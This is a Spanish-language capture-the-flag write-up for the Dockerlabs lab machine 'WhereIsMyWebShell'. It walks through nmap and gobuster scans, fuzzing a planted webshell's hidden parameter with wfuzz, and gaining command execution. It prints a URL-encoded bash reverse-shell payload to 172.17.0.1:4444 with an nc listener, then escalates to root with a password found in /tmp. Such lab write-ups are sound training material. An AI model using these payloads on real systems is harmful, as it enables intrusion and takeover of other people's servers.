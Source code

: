 # 🖥️ Writeup - WhereIsMyWebShell 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip whereismywebshell.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh whereismywebshell.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-31 15:02 CET
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
```

Solo el puerto `80` está accesible.

Al acceder a la página web, encontramos el siguiente comentario al final de la misma:

```
¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)
```

Esto probablemente nos servirá más adelante.

# GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
Progress: 1335871 / 1543899 (86.53%)
```

Encontramos un archivo `warning.html` que contiene el siguiente mensaje: 

```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```

Intuimos que el archivo `shell.php` que hemos encontrado es la `webshell` que ha subido el atacante. Al intentar acceder a ella, el servidor devuelve un código de estado `500` (Internal Server Error).

Sin embargo, el mensaje en `warning.html` nos da una pista, la `webshell` requiere un `parámetro`, y este podría permitir `RCE` (Remote Code Execution)


# WFUZZ

Procedemos a intentar descubrir el `parámetro` mediante `fuzzing`.

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/shell.php?FUZZ=../../../../../etc/passwd --hc 404 --hl 0
```

Info:
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=../../../../../etc/passwd
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                  
=====================================================================

000115401:   200        1 L      1 W        12 Ch       "parameter"              

Total time: 134.2338
Processed Requests: 220559
Filtered Requests: 220558
Requests/sec.: 1643.095
```

Encontramos un parámetro, `parameter`, que nos devuelve un código de estado `200` (OK)

# RCE

Probamos a ejecutar un comando usando el parámetro `parameter` que hemos encontrado.

```
http://172.17.0.2/shell.php?parameter=id
```

Info:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Confirmamos que tenemos ejecución remota de comandos (`RCE`), por lo que procedemos a obtener una `reverse shell`.

Generamos el `payload` y lo codificamos en formato `URL` para asegurar que se transmita correctamente.

```
bash -c 'bash -i >%26 %2fdev%2ftcp%2f172.17.0.1%2f4444 0>%261'
```

Ponemos un `listener` en nuestra máquina atacante, a la espera de la conexión.

```bash
sudo nc -nlvp 4444
```

Inyectamos el `payload` codificado en la `URL` como valor del parámetro `parameter`.

```
http://172.17.0.2/shell.php?parameter=bash -c 'bash -i >%26 %2fdev%2ftcp%2f172.17.0.1%2f4444 0>%261'
```

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43934
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@6aa01e22d477:/var/www/html$
``` 

Recibimos la conexión de la `reverse shell` con permisos del usuario `www-data`.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Recordamos la pista anterior sobre un archivo en `/tmp`.

Navegamos al directorio `/tmp` y encontramos un archivo oculto, `.secret.txt`, que contiene lo que parece ser una contraseña.

```
www-data@6aa01e22d477:/tmp$ cat .secret.txt
contraseñaderoot123
```

Intentamos escalar privilegios a `root` con esta contraseña.

```bash
su root
```

Info:
```
www-data@6aa01e22d477:/tmp$ su root
Password: contraseñaderoot123
root@6aa01e22d477:/# whoami
root
```

¡Funciona! Ya somos root.